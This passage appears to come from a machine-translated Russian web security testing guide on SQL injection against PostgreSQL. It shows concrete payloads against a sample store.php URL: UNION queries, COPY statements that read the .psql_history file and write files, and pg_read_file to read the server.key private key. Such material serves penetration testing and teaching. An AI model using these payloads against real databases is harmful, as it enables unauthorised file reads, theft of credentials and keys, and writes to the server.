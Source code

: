 Встроенная функция current \ _database () возвращает текущее имя базы данных.

##### Пример

`http://www.example.com/store.php?id=1 UNION ALL SELECT current_database(),NULL,NULL--`

#### Чтение из файла

PostgreSQL предоставляет два способа доступа к локальному файлу:

- `COPY` statement
- `pg_read_file()` внутренняя функция (начиная с PostgreSQL 8.1)

##### КОПИЯ

Этот оператор копирует данные между файлом и таблицей. Механизм PostgreSQL обращается к локальной файловой системе как пользователь `postgres`.

###### Пример

```text
/store.php?id=1; CREATE TABLE file_store(id serial, data text)--
/store.php?id=1; COPY file_store(data) FROM '/var/lib/postgresql/.psql_history'--
```

Данные должны быть получены путем выполнения `UNION Query SQL Injection`:

- извлекает количество строк, ранее добавленных в `file_store` with `COPY` заявление
- извлекает строку за раз с помощью UNION SQL Injection

```text
/store.php?id=1 UNION ALL SELECT NULL, NULL, max(id)::text FROM file_store LIMIT 1 OFFSET 1;--
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 1;--
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 2;--
...
...
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 11;--
```

##### pg_read_file()

Эта функция была введена в `PostgreSQL 8.1` и позволяет читать произвольные файлы, расположенные в каталоге данных СУБД.

###### Пример

`SELECT pg_read_file('server.key',0,1000);`

#### Запись в файл

Возвращая оператор COPY, мы можем записать в локальную файловую систему с правами пользователя `postgres `

`/store.php?id=1; COPY file_store(data) TO '/var/lib/postgresql/copy_output'--`

#### Shell Injection

PostgreSQL предоставляет механизм для добавления пользовательских функций с использованием как динамической библиотеки, так и языков сценариев, таких как python, perl и tcl.
